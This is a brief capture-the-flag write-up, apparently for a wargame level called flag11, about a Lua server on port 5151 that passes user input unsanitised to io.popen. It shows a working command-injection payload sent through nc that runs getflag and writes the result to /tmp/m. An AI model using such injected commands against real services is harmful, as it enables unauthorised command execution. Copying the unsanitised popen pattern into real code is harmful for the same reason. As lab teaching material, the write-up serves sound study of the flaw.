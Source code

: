 # flag11

This is a simple command injection challenge.

A server is served on port `5151` and we have the source code in a lua file.

This server seems to perform some sort of hashing function on user input, but passes it in the `io.popen` function unsanitized, allowing for command execution.

We can pass something like this:
```bash
echo ';getflag>/tmp/m' | nc 127.0.0.1 5151
```

And get the flag:
```bash
$ cat /tmp/m
<flag11>
```
